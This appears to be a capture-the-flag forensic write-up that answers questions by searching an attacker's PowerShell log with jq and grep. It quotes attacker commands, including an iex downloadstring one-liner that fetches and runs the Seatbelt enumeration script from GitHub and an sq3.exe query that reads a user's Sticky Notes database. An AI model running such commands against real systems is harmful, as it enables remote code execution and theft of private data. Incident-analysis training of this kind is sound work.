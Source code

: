 > ### What is the name of the enumeration tool downloaded by the attacker?

Lets have a look at that **powershell** file using **jq**.

```bash
cat powershell.json | jq '.ScriptBlockText'
```

Right at the beginning of the log we find this:

```bash
"iex(new-object net.webclient).downloadstring('https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt.ps1');pwd"
```

We see an **Invoke-Expression** downloading something called **Invoke-Seatbelt.ps1** which sounds a bit dodgy.

We can go look at the **github** location to see what it does.

**Answer: seatbelt**

---

> ### What is the file accessed by the attacker using the downloaded **sq3.exe** binary? Provide the full file path with escaped backslashes.

We know about the **sq3.exe** so let’s start with that.

I did a:

```bash
cat powershell.json | jq '.ScriptBlockText' | grep sq3.exe
```

This part caught my eye:

```bash
".\\Music\\sq3.exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite \"SELECT * from NOTE limit 100\";pwd"
```

I think we are looking at the **plum.sqlite** file.

The file path isn’t complete with it starting from the **AppData** location.

To find the rest I decided to use **grep** to look for **Users**

```bash
cat powershell.json | jq '.ScriptBlockText' | grep Users
```

I found this:

```bash
"ls C:\\Users\\j.westcott\\Documents\\protected_data.kdbx;pwd"
```

Look juicy but lets keep on track.

We can combine these results since we now know about **j.westcott**.

**\= C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes\_8wekyb3d8bbwe\\LocalState\\plum.sqlite**

---